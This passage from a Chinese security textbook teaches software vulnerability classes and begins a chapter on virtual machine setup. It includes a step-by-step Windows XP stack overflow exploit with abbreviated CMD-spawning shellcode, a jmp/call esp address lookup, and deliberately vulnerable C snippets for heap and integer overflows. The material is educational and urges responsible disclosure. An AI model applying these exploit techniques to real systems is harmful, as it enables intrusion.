

图 3.5 栈溢出发生时的系统警告

再次使用 Microsoft Visual C++ 6.0 编译执行这段代码，如图 3.5 所示。我们发现此刻我们的代码最终运行结果发生了错误，系统给出了一个错误警告提示对话框。

为了能够更加具体地知道这段代码发生了什么错误，我们用鼠标单击“请按这里”，如图 3.6 所示。



图 3.6 系统给出的详细出错信息

我们看到，stackoverflow.exe 程序在执行内存地址 6c6b6a69 的时候发生了错误。这里的 6c6b6a69 就是“lkji”四个字母的十六进制表示（ASCII 码），之所以是 lkji 而不是 ijkl，是因为 Windows 操作系统内存数据按倒序存放。

也就是说此刻，lkji 这四个字母覆盖我们 stackoverflow.exe 程序的返回地址，栈溢出现象发生了！

在字母 i 以前，刚好就是 8 个字母“abcdefgh”，也就是说 output 指向的 8 个字节的内存地址此刻完全被装满，而多余的“ijklmnopqrstuvwxyz”就覆盖到栈空间中其它数据，这里包括函数的返回地址。借助 OllyICE 程序，我们看看此刻 esp 寄存器又指向哪里，如图 3.7 所示。在图 3.7 中我们看到，esp 寄存器果然指向了 ijkl 四个字母后的过长字符串。



图 3.7 借助 OllyICE 程序查看 esp 寄存器指向地址

现在，按照前面的介绍方法，我们将把 mnopqrstuvwxyz 替换成为一段 ShellCode 代码。这里我们给出一段在 Windows XP SP2 系统下打开一个 CMD 命令行窗口的 ShellCode 代码，即：

```c
"\x55\x8B\xEC\x33\xC0\x50\x50\x50..."
"\x77\x1D\x80\x7C" // windows xp sp2 loadlibrary 地址 0x77e69f64
"\xC7\x93\xBF\x77" // windows xp sp2 system 地址 0x7801afc3
...
```

同时，我们需要将 ijkl 四个字母替换成为一个 jmp esp 指令或者 call esp 指令所在的地址，这个地址我们可以通过一个名叫“findjmp.exe”的程序来获得（该程序已经放入到本书配套光盘中）。开启一个命令行窗口，输入命令 findjmp kernel32.dll esp，我们将会找出一个系统 kernel32.dll 文件中提供的 jmp esp 指令或者 call esp 指令所在的地址，如图 3.8 所示。这里我们获得的 call esp 指令地址为 0x7C82385D。有了 7C82385D 地址，有了 ShellCode，现在，让我们修改前面给出的那段代码：



图 3.8 利用 findjmp 程序获得 jmp esp 指令或者 call esp 指令所在的地址

```c
#include <stdio.h>
#include <string.h>
char name[] = "\x41\x41\x41\x41"
             "\x41\x41\x41\x41" // 这里就是 8 个字母 A
             "\x5D\x38\x82\x7C" // 注意这里将 call esp 指令地址需要倒着写
             "\x55\x8B\xEC\x33\xC0...";
...
```

```c
"\xC7\x93\xBF\x77"  // windows xp sp2 system 地址 0x7801afc3
"\xFF\xD0"          // 以上就是一个开启 CMD 窗口的 ShellCode

void cc(char *a)
{
    char output[8];         // 开辟一个 8 字节大小的缓冲区 output
    strcpy(output, a);      // 将 a 变量拷贝至 output 缓冲区中
    printf("%s\n", output); // 打印 output 中的内容
}

int main()
{
    cc(name);   // 调用 cc 函数
    return 0;
}
```

图 3.9

成功利用栈溢出漏洞打开了一个 CMD 命令行窗口

再次编译执行上面的这段代码，我们发现程序在打印出一段带有字母 A 的字符串后马上切换窗口，打开了一个 CMD 命令行窗口，如图 3.9 所示。

通过这个例子，我们看到了一个典型的栈缓冲区溢出漏洞从发现到被利用的全部过程。试想一下，如果我们上面给出的 ShellCode 代码不是一个简单的开启 CMD 窗口的代码，而是一段执行格式化硬盘命令或者安装恶意木马程序的 ShellCode 代码，你可以想象这个栈缓冲区溢出漏洞将带来多大的危害。

在实际对软件进行栈缓冲区溢出漏洞发掘和利用过程中，其基本思路与上面这个例子一样。唯一不同的地方就是需要我们用不同长度的数据来测试软件，从而判断多长的数据能够成功覆盖程序的返回地址。一旦发现刚好覆盖了程序的返回地址，就马上替换这四个字节数据为 jmp esp 或者 call esp 指令的地址，然后加上 ShellCode 后，再次提交给软件，从而成功利用软件的栈缓冲区溢出漏洞。

堆溢出是一种比较复杂的溢出。系统在管理堆这个缓冲区时，采用的是一个双向链表结构。堆不同于栈，堆中的数据是先进先出，当堆发生溢出时，主要是管理堆结构的一些关键指针数据被覆盖了。来看一个例子。

```c
int main(int argc, char *argv[])
{
    char *buf1, *buf2;
    char s[] = "aaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbcccccccc";

    buf1 = (char*)malloc(32);   /* 在堆上分配 buf1 */
    memcpy(buf1, s, 32+16);     /* 这里多复制 16 个字节 */
    buf2 = (char*)malloc(16);   /* 在堆上分配 buf2 */

    free(buf1);
    free(buf2);
    return 0;
}
```

在给 buf1 完成 malloc 之后，返回的地址（buf1）是个指针，指向的内存分配情况是这样：  
buf1 的管理结构（8bytes）|buf1 真正可操作空间（32bytes）|下一个空闲堆的管理结构（8bytes）|两个双链表指针（8bytes）

在给 buf2 完成 malloc 之后，buf1 指向的内存分配情况是这样：  
buf1 的管理结构（8bytes）|buf1 真正可操作空间（32bytes）|buf2 的管理结构（8bytes）|buf2 真正可操作空间（16bytes）|两个双链表指针（8bytes）

现在假如在 buf2 分配空间之前，buf1 的 memcpy 操作溢出，并且覆盖了下一个空闲堆的管理结构和两个双链表指针共 16 个字节的时候，就会造成 buf2 的 RtlAllocHeap 操作异常，堆溢出就发生了；再来看一个存在堆溢出的代码。

```c
bool CheckAuthor(char* username, char* password)
{
    char* uname = new char[32];   // 开辟一个 32 字节大小的缓冲区 uname
    strcpy(uname, username);      // 使用 strcpy 函数将 username 复制到 uname 中
}
```

如果此时用户输入的 username 值长度超过 32 个字节，毫无疑问，uname 分配的堆空间肯定会发生溢出，这将导致程序出现异常；如果攻击者精确定位这个异常，把指向异常函数的地址覆盖了，那么他就可以获得执行自己代码的权限了。

#### 3.3.2 整数溢出漏洞

整数是编程中涉及最多的一种数据类型，整数的大小是由整数类型和字符大小（size）决定的。对于有符号的 16 位整数来说，它的最大值就是 0x7fff，也就是十进制的 32767；它的最小值是 -0x8000，十进制的 -32768。而无符号的 16 位整数最大值就是 0xffff，十进制的 65535，最小值则是 0。对于 32 位的有符号整数的最大值是 0x7fffffff，十进制的 2147483647，最小值则是 -0x80000000，十进制的 -2147483648。32 位的无符号整数最大值是 0xffffffff，即十进制的 4294967295，最小值是 0。当赋值给一个整数的值为其最大值时，如果此时再加上 1，则会发生整数型的溢出。对于有符号的整数来说，这会造成一个逻辑上的错误，绕过很多看似安全的限制，我们看看下面的演示代码。

```c
int num;
...
num = argv[1];
if (num + 1 < 50000)
{
    strcpy(des, src);
}
```

其中 num 是一个有符号的整数，它的值来自外部参数 argv[1]，接着代码判断 num+1 的值是否小于 50000；如果是则执行一个字符串拷贝函数。这里我们注意 num 的值，如果我们从外部赋值给 num，使它等于 0x7fffffff，这样当程序执行到 if 语句时，num+1 的值反而会变成一个负数，因为此时的数值已经超过了 32 位有符号整数的最大值。那么负数一定是小于 50000 的，从而执行了字符串拷贝函数，而这个拷贝会造成一个潜在的溢出漏洞。

整数溢出不但会造成对安全检查的限制被绕过，还可能直接造成溢出漏洞的发生，我们再看一段整数过大可以导致程序发生溢出错误的代码。

```c
(1) char *buf;
(2) int sizeBuf = sizeof(argv[1]) + 260;
(3) buf = new char[sizeBuf];
(4) memcpy(buf, argv[1], sizeof(argv[1]));
```

我们逐句分析这段代码，第一行是定义一个字符串指针 buf，也就是我们放置外部字符串的目的地址，第二行是将外部字符串的大小加上 260 赋值给 sizeBuf，作为准备为 buf 开辟空间，第三行就是利用 new 来为 buf 开辟比外部字符串大 260 字节的空间，第四行就是将外部字符串拷贝进入 buf。由于我们的目的空间的大小来自于 sizeBuf，这个值比传递进来的字符串长度要大 260，理论上不会出现任何问题，但是请注意 sizeBuf 是一个有符号的整数，如果 sizeof(argv[1]) 的值是 2147483388，sizeBuf 的值就成了 2147483388 + 260 = 2147483648，这个值大于了有符号整数的最大值 2147483647，成为一个负数，也就是导致后面的 memcpy 函数发生严重的内存覆盖错误，与栈溢出一样，在一定条件下，就可以利用此漏洞执行任意代码。

#### 3.3.3 指针覆盖漏洞

对于一个程序来说，内存中的数据往往都影响着程序的执行流程，因为程序将取出某个内存地址中的内容作为它下一个将要执行的地址。这个时候，我们称这个保存程序执行地址的内存地址为“指针”。

由于程序在运行中往往会将来自于程序外部的数据也存放进入内存中；如果某些数据恰好覆盖了程序的指针，那么程序的执行流程将会被这些外部数据所控制，这就是指针覆盖漏洞。

类似于缓冲区溢出漏洞，缓冲区溢出漏洞主要是因为程序的返回地址被外部数据所覆盖，程序在函数调用返回的时候被外部数据控制。而指针覆盖漏洞的范围更广泛一些，外部数据不仅仅可以覆盖程序的函数返回地址，还可能覆盖了程序运行中其它的关键地址。如程序正在调用指令 call ecx，此时 ecx 寄存器中的数据来源于内存中的某个地址。一旦程序发生指针覆盖漏洞，ecx 索取数据的这个内存地址被一个执行 ShellCode 代码的地址所覆盖，那么程序一旦调用 call ecx 指令，ShellCode 就会马上被执行。

指针覆盖漏洞可能是最近几年软件安全中出现最多的漏洞；缓冲区溢出漏洞随着一些安全技术的提高慢慢开始消失。尤其，近几年 CPU 硬件设计者采用的一些硬件级别的防止缓冲区溢出漏洞的方法，更加使得缓冲区溢出漏洞难以被成功利用。

但是，对于指针覆盖漏洞来说，由于它不牵扯用过长数据覆盖内存数据，而是让程序自己主动修改自己的关键寄存器数据，从而使得硬件级别的方法也无法防止这种漏洞被恶意利用。为此，我们将在后面的实战漏洞发掘中突出分析这种漏洞的发掘与利用。

#### 3.3.4 脚本漏洞

脚本漏洞，你一定会疑惑，只听说 Web 应用程序中才会出现脚本漏洞吗？怎么应用软件中也会出现脚本漏洞呢？

其实，软件中有很多种类都需要与 Web 应用程序打交道，例如浏览器就是专门用来访问 Web 应用程序的软件。有些软件还整合了 Web 应用程序，用来丰富软件的应用功能，例如我们将在本书第 7 章中介绍的 Web-Mail，它就属于邮件服务软件中整合的 Web 应用程序。

为此，脚本漏洞也就顺理成章地成为了软件安全漏洞的一个分类。而这其中我们最常涉及的软件脚本漏洞就是 XSS 漏洞，即跨站脚本漏洞。

软件的跨站漏洞具体是指能够帮助恶意攻击者向 Web 应用程序页面里插入恶意脚本代码，当用户利用软件访问这些 Web 应用程序页面时，嵌入在正常 Web 页面中的恶意代码会被执行，从而达到攻击用户系统、获取用户信息等特殊目的的安全漏洞。还有一些特殊的脚本漏洞，我们将在本书后面的章节中结合具体漏洞挖掘实例来向大家介绍。

#### 3.3.5 Bypass 漏洞

Bypass 漏洞翻译过来就是绕过漏洞，听起来很怪异的一个名字。假设有一个软件，它只允许管理员登录，不允许其它人登录。可是，你发现利用某种方法，即使你不知道管理员的密码，你也能够登录该软件，这个时候，你就发现了一个“Bypass 漏洞”。

Bypass 漏洞是一个大类，它包含了很多小类，这些小类都有一个特点，就是这些出现 Bypass 漏洞的软件在使用上都存在对用户的一定限制，而借助 Bypass 漏洞就可以绕过软件的这些限制，使得软件的限制如同虚设。

图 3.10 Windows 2000 系统的输入法漏洞演示

也许，你觉得 Bypass 漏洞危害好像不大，因为你常常听说缓冲区溢出漏洞才是最“厉害”的漏洞。其实，这种观点是错误的。不知道你有没有听说过微软 Windows 2000 系统的一个 Bypass 漏洞：这个漏洞可以让你在不知道别人系统密码的情况下，成功访问到 Windows 2000 系统内部的所有文件与数据信息，这就是 Windows 2000 系统的输入法漏洞。

Windows 2000 系统的输入法漏洞允许用户在不知道系统密码情况下，在输入用户名的窗口中调用出输入法的帮助程序，借助帮助程序的“跳至 URL”功能，访问到系统任意文件。如图 3.10 所示。

想一想，当你给自己的 Windows 2000 系统设定了一个密码后，放心离开办公室回家的时候，一个恶意的访问者通过输入法漏洞，绕过你设定的密码限制，访问到你系统中保存的机密信息，你觉得这样的危害还不大吗？

不要以为 Windows 2000 系统的这个输入法漏洞早已经过时，著名的谷歌输入法在前一阵子也出现了同样的漏洞，只要安装了谷歌输入法的操作系统，不论你是 Windows XP，还是 Windows Vista，别人都可以在不知道你系统密码的情况下访问你系统中的任意文件。这下子你知道 Bypass 漏洞的危害有多大了吧！

Bypass 漏洞的危害不仅仅如此。某些软件在使用功能上提供了很多安全机制，目的是为了提高软件的安全性、保护用户的系统或者个人隐私。但是，一旦出现 Bypass 漏洞，软件的这些安全机制就会如同虚设，恶意攻击者可以轻而易举地绕过软件的安全保护机制，从而达到攻击用户系统或者窃取用户隐私的罪恶目的。长此以往，用户肯定会失去对软件的信任，不敢使用这些软件，从而造成软件无法卖出，软件开发商将会蒙受巨大的经济利益损失。

本书将在第 10 章中结合浏览器软件漏洞的挖掘来为大家详细展现 Bypass 漏洞的挖掘技巧。

#### 3.3.6 提权漏洞

经常使用 Windows 系统的读者朋友们一定知道，在 Windows 系统中区分了很多不同权限的用户，如 Administrator、Guest、User 等等用户，不同的用户权限是不一样的。例如 Guest 用户是无法修改系统的 IP 地址等配置信息的，而 Administrator 用户则可以修改。这样的用户权限区分是为了能够更好地、安全地使用计算机系统，对不同用户群加以分类。如果一个用户只需要使用计算机来看电影，那么给他一个 Guest 权限的用户就可以使用，没有必要给予他过高的权限。同时，也能够防止木马病毒程序利用高权限来随意破坏修改系统的核心数据信息。

但是，如果一个原本是 Guest 的用户发现了一种方法，可以使得自己获得 Administrator 用户的权限，这个时候，安全问题就发生了。因为他提升了自己的权限，获得了本不应该获得的权限。他就可以随意修改系统数据，甚至是将原来的系统管理员清除出去，自己独占系统。这种安全漏洞被我们称之为“提权漏洞”。

提权漏洞的危害主要在于，一些恶意攻击者在利用某些方式攻击进入他人计算机系统后，可能由于安全机制限制，他只有 Guest 或者更低用户的权限，这个时候，他就无法进一步去获得更大权限来操控被攻击的系统；如果系统中的某些机密信息只有管理员才能访问，那么攻击者就必须找出一个提权漏洞来获得管理员权限，这样他才能够实现对被攻击系统的完全控制。

还有，很多防木马病毒程序，如瑞星、卡巴斯基等，都是工作在系统最高权限范围内，它们禁止低权限的用户随意修改它们的配置、随意停止它们的工作，目的是为了能够保护用户系统的安全。但是，如果木马病毒程序利用提权漏洞使自己获得系统最高权限，这样一来，木马病毒程序就可以随意停止这些安全防护软件的工作，在被安全防护软件发现自己前，将安全防护软件破坏掉，从而长驱直入地肆意破坏用户的计算机系统。

### 3.4 安全汇报与应急响应

通过上面的内容，软件安全漏洞的危害性我想读者朋友一定早已了解。由于我们这里为大家展现的都是软件安全漏洞的挖掘技术，我们发现的东西就是软件的安全漏洞，为此，我们需要有一定的纪律来严格要求自己，不要用发现出来的安全漏洞去做违法的事情。

一个安全漏洞被挖掘出来后，最合理的做法是首先联系软件的开发商，汇报漏洞详情，我们称这个过程为“安全汇报”。

作为研究安全技术的我们，养成良好的安全汇报习惯是必要的。一方面你已经通过自己的技术成功发现了安全漏洞，一方面你也需要合情合理地处理好你发现的安全漏洞。不要贸然去利用你发现的安全漏洞去做恶意攻击，更不要随意出售自己发现的安全漏洞，因为这样做你就可能构成犯罪，我国有着严格的计算机犯罪法律制度，并且都已经写入到刑法当中，所以，请读者在使用本书所涉及的技术挖掘软件安全漏洞时，一定遵守法律要求。

安全汇报是对我们这些漏洞挖掘者而言的，当我们将安全漏洞汇报给软件开发商后，他们就需要进入到一个叫做“应急响应”的工作流程当中。

简单地讲，“应急响应”就是软件开发商在收到漏洞报告后，组织人员分析确定漏洞，确定后着手制定修补升级方案，并在短时间内，向软件使用者公布出漏洞补丁程序或者方法，指导用户及时修补软件安全漏洞。

应急响应是一个软件开发商应当具备的能力，不过，很多软件的开发商都不重视这一块，有时我们汇报了安全漏洞，却迟迟不见软件开发商修补漏洞。这个时候，我们应当写出一个软件安全漏洞的测试代码；注意，不是利用代码，测试代码的目的只为演示漏洞的存在，不会造成任何恶意攻击。我们称这个测试代码为 POC，即英文的 Proof of Concept，意思是证明漏洞存在的代码。

我们可以将 POC 发布于一些安全邮件列表中，如我们前面提到的 xxx。或者可以将 POC 代码发布于安全杂志当中，如国内知名的安全杂志《黑客手册》。同时，最好能够给出解决该安全漏洞的方法，以便帮助那些有需要的人们。不要炫耀自己，更不要利用技术走上犯罪的道路。正确的心态才能够为你带来成功的喜悦。

## 第3章 软件漏洞的基本知识

### 思考题

- 1、0day 漏洞为什么备受关注？
- 2、常见的软件安全漏洞区分为哪几类？

### 答案

- 1、0day 漏洞意味着是软件开发商还没有来得及修补的安全漏洞，这类漏洞一旦被恶意利用，可能造成无法挽回的巨大经济利益损失。如果这些漏洞被利用来窃取国家、政府、军方的机密信息，那么，就可能造成极其恶劣的国际影响，对国家安全稳定造成巨大危害。所以，0day 安全漏洞一直是被高度保密的，它们也被人通过金钱进行收购买卖，价格有时高得吓人。
- 2、常见的软件安全漏洞区分为：缓冲区溢出类型漏洞、整数溢出漏洞、指针覆盖漏洞、脚本漏洞、Bypass 漏洞、提权漏洞。

## 第4章 搭建漏洞挖掘的环境

所谓“工欲善其事，必先利其器”。本书既然是一本专门讲述软件安全漏洞挖掘技术的图书，那么就必须将前期工作做完整。通过前面几章的学习，我们对软件安全漏洞的理论概念有了一个了解。现在，既然马上要进入到具体动手操作的实战环节，那么，我们就需要做好硬件的准备。这里的硬件准备不是简简单单只准备一台计算机而已，具体要准备什么都在本章当中。

### 4.1 虚拟机的概念

虚拟机技术就是通过软件来模拟具有完整硬件系统功能的、运行在一个完全隔离环境中的完整计算机系统。通过虚拟机软件，你可以在一台物理计算机上模拟出一台或多台虚拟的计算机，这些虚拟机完全就像真正的计算机那样进行工作，例如你可以安装操作系统、安装应用程序、访问网络资源等等。对于你而言，它只是运行在你物理计算机上的一个应用程序，但是对于在虚拟机中运行的应用程序而言，它就像是在真正的计算机中进行工作。有了这种技术，我们就可以实现在一台电脑上安装两个操作系统，模拟两台计算机，从而构成一个网络环境。

在 Windows 系统下，目前流行的虚拟机软件有 VMware 和 Virtual PC，它们都能在 Windows 系统上虚拟出多个计算机，可以用于安装 Linux、OS/2、FreeBSD 等其他操作系统。

虚拟机还有一个概念，是指介于硬件和编译程序之间的软件，像我们常听说的 Java 虚拟机 JVM 就属于这种虚拟机。与前面介绍的虚拟机技术不一样，这种虚拟机技术主要是解决同一种程序在不同平台上能够通用的问题。

### 4.2 虚拟机的重要性

为什么选择虚拟机作为我们发掘软件漏洞的必备软件？有三个很重要的原因：

- 1. **保证自己系统不被漏洞破坏**  
  很多情况下，软件发生的安全漏洞会造成系统中文件或者数据的丢失，甚至可能造成系统瘫痪。为此，我们必须借助虚拟机系统来避免这种情况的发生。
- 2. **减小对计算机硬件的损伤**  
  因为我们在本书中将学习到如何发掘操作系统级别的安全漏洞，这些漏洞将会造成操作系统死机，这时我们就不得不重新启动计算机来恢复运行。而发掘一个漏洞可能会频繁启动计算机，这就会造成对计算机硬件的损伤；为此，我们需要借助虚拟机系统来保护我们自己的计算机硬件。
- 3. **搭建网络环境**  
  我们日常接触的软件中有大部分都需要借助网络才能够正常运行，例如网站程序服务软件、浏览器软件等等。在发掘这些软件的安全漏洞时，我们就必须建立一个网络环境来对它们进行安全测试，而虚拟机系统就可以在一台计算机上模拟出一个网络环境。

### 4.3 VMware 的安装

这里演示安装的是 VMware 5.5.3 版本，软件的安装过程与一般的应用软件安装没有什么区别，输入正确序列号后就可以使用。其使用界面如图 4.1 所示。



用鼠标选择“新建虚拟机”图标，会出现 VMware 新建虚拟机向导，直接选择“下一步”后出现如图 4.2 的界面。

VMware 首先会让你选择要建立什么类型的虚拟机，“Typical”指的是传统硬件环境的虚拟机，也就是我们一般使用的基于 Intel x86 结构的计算机系统。“Custom”是用来建立有特殊硬件结构需要的虚拟机，一般情况下，我们选择“Typical”来建立虚拟机环境。选择“下一步”后，如图 4.3 所示。

